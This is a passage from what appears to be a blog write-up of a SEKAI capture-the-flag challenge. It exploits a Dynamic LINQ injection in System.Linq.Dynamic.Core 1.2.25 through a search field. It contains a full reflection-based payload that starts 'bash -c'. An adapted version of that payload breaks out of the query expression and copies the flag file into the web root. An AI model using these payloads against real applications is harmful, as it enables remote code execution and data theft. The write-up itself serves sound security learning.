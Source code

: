 ```
"".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "bash;-c <command-here>".Split(";".ToCharArray()))
```

But can we actually use this payload? According to the CVE, the vulnerability only
affects LINQ version 1.0.7.10 to 1.2.25. Let's check `src/CRUD.deps.json`

```cs
"dependencies": {
    "System.Linq.Dynamic.Core": "1.2.25",
    "runtimepack.Microsoft.NETCore.App.Runtime.linux-x64": "7.0.16",
    "runtimepack.Microsoft.AspNetCore.App.Runtime.linux-x64": "7.0.16"
},
```

Beautiful, we got version 1.2.25, which means we can exploit the vulnerability!

Let's change our payload to be like this:

```cs
") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"cat /flag*.txt > /app/src/wwwroot/img/covers/output.txt\"".Split(";".ToCharArray())).GetType().ToString() == ("
```

Using the search field as our attack vector.

![before-searching](/blog/images/2024-08-27-19-53-15.png)

Click on search

![after-searching](/blog/images/2024-08-27-19-53-26.png)

Noice, no error. Let's now navigate to `/img/covers/output.txt` (we redirected the output of the flag to this file)


![flag](/blog/images/2024-08-27-19-54-42.png)

---

The flag is: `SEKAI{L1nQ_Inj3cTshio0000nnnnn}`

The things we learned from this challenge:

1. Always sanitize user input.
2. Dynamic LINQ vulnerability.
